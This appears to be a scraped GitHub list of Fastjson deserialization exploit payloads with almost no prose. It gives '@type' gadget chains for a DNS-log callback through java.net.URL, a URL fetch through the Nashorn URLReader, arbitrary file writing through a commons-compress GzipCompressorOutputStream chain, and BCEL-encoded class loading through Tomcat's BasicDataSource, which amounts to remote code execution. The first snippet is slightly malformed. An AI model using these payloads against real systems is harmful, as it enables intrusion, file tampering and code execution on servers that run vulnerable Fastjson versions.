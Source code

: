  - JSONObject

```java
{
	"@type": "com.alibaba.fastjson.JSONObject",
	{
		"@type": "java.net.URL",
		"val": "http://dnslog.com"
	}
}
""
}
```

- URLReader

```java
{
	"poc": {
		"@type": "java.lang.AutoCloseable",
		"@type": "com.alibaba.fastjson.JSONReader",
		"reader": {
			"@type": "jdk.nashorn.api.scripting.URLReader",
			"url": "http://127.0.0.1:9999"
		}
	}
}
```

 - AutoCloseable any file writing

```java
{
	"@type": "java.lang.AutoCloseable",
	"@type": "org.apache.commons.compress.compressors.gzip.GzipCompressorOutputStream",
	"out": {
		"@type": "java.io.FileOutputStream",
		"file": "/path/to/target"
	},
	"parameters": {
		"@type": "org.apache.commons.compress.compressors.gzip.GzipParameters",
		"filename": "filecontent"
	}
}
```

 - BasicDataSource

```java
{
  "@type" : "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
  "driverClassName" : "$$BCEL$$l$8b$I$A$A$A...",
  "driverClassLoader":
  {
    "@type":"Lcom.sun.org.apache.bcel.internal.util.ClassLoader;"
  }
}
```

